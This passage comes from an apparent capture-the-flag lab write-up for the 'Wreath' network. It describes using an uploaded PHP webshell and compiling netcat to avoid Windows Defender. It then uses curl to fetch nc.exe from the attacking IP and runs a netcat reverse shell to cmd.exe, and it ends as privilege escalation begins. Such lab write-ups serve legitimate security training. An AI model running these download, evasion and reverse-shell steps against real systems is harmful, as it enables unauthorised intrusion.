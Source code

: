 We upload our image and find that we get an 'Undefined Index' error - meaning it has worked.

Now we have a working webshell, we can use the `wreath` parameter to run commands.

Visiting `http://10.200.101.100/resources/uploads/cat-shrike.jpg-php?wreath=hostname` we can see that we identify the machine as `wreath-pc`.

![](images/wreath/webshell.png)

### Stablising the Shell

Because we are assuming that Windows Defender is on the machine, most payloads (such as those created with `msfvenom`, `php`, `powershell` etc) will be detected. As such, we compile a custom `netcat` binary to avoid detection.

We clone the GitHub repo for `netcat` and modify the included `Makefile` to use the `x86_64-w64-mingw32-gcc` compiler and the build the binary.

Then, we use a temporary python webserver once more to uplaod the file to our target.

Because of the AV concerns, it's best to use the existing binaries on the system, such as `curl.exe` or `certutil.exe`. 

In this case, we can run `CertUtil.exe -dump` and see if it runs. It does, but Defender will most likely mark this as malicious. So, we use `curl.exe` instead.

Running `curl http://<attacking_ip>/nc.exe -o c:\\windows\\temp\\nc-shrike.exe` gives us our `netcat` payload on the target machine.

Then, we set up a listener on our attacking machine and run the following PowerShell command to gain a full reverse shell:

`powershell.exe c:\\windows\\temp\\nc-shrike.exe 10.50.102.37 443 -e cmd.exe`

## Privilege Escalation - Personal Machine

### Finding an Exploitable Service

Running the `whoami` command reveals that we are not the system account for the machine, but the `thomas` user. As such, we'll need to look for methods to escalate privileges.
